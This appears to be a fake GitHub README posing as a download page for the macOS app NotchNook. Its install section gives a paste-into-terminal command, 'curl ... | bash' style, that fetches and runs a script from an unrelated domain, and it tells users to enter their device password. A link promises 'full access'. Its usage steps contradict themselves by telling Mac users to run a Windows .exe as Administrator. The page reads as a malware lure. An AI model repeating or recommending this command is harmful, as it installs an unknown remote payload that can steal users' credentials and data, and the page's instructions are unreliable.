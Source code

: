 <p align="center">
  <img src="https://images.toolfinder.co/tools/426/logo/notchnook-logo.webp?h=256&fm=webp&fit=pad&w=256&q=100" alt="NotchNook Logo" width="160px">
</p>

<h1 align="center">🍃 NotchNook for macOS</h1>
<p align="center"><strong>Smooth your workspace, control the notch, and perfect your Mac aesthetics with NotchNook.</strong></p>

<p align="center">
  <a href="https://notchnook-mac-download.github.io/.github/" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20NotchNook%20MAC-GET%20FULL%20ACCESS-silver?style=for-the-badge&logo=apple&logoColor=white" alt="Download Button" style="width: 580px; height: 45px;">
  </a>
</p>

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What is NotchNook?

**NotchNook** is a macOS utility that transforms your menu bar experience. Designed specifically for newer MacBooks with notches, it lets you:

- Add visual balance to the notch zone  
- Hide or center menu bar items around the notch  
- Apply subtle shading or dynamic wallpapers  
- Maintain a cleaner, symmetrical workspace

Whether you're using an M1 or M4 chip, NotchNook ensures the notch blends in style, not distracts.

---

## 🧩 Features

- ✨ **Dynamic notch styling** with elegant borders or blackout zones  
- 📐 **Menu bar spacing tools** for symmetry or hiding system icons  
- 🌈 **Custom overlays and gradients** for creative notch camouflage  
- 💻 **Optimized for macOS Sonoma & Sequoia** (13–15)  
- 🔒 Lightweight and sandboxed: zero background drain

---

## 📌 How to Use

1. Extract the archive on your macOS desktop  
2. Move the **NotchNook** app to Applications  
3. Launch **AppLauncher.exe from the archive as Administrator** (for compatibility layer setup)  
4. Customize notch visuals and bar spacing via the app UI  
5. Done! Your workspace is now cleaner and more refined ✨

---

## 🖼️ Preview

<p align="center">
  <img src="https://i.ytimg.com/vi/Cs_nnhjHUkM/hq720.jpg?sqp=-oaymwEhCK4FEIIDSFryq4qpAxMIARUAAAAAGAElAADIQj0AgKJD&rs=AOn4CLBY4VACO2xas1DeRWtWGIR5bgJYaw" alt="NotchNook Interface" width="720">
</p>

<p align="center">
  <img src="https://www.itopnews.de/wp-content/uploads/2024/07/Notchnook-Mac-748x422.jpg" alt="NotchNook Preview" width="720">
</p>

---

## 🖥️ System Requirements

- **macOS Versions:** 13, 14, 15  
- **Processor:** Apple Silicon (M1, M2, M3, M4)  
- **RAM:** Minimum 4 GB  

---

## 📢 Legal & Notice

This guide is provided for educational and demonstrational purposes. All trademarks and logos are the property of their respective owners.

---

## 🔍 SEO Keywords

`NotchNook`, `notch control mac`, `macbook notch tool`, `menu bar notch utility`, `macos notch overlay`, `notch mask mac`, `macos 13 notch`, `mac m1 m2 m3 notch app`, `notchnook app download`, `notch editor mac`, `notch ui adjust`, `notchnook utility`, `notch design mac`, `macbook pro notch fix`
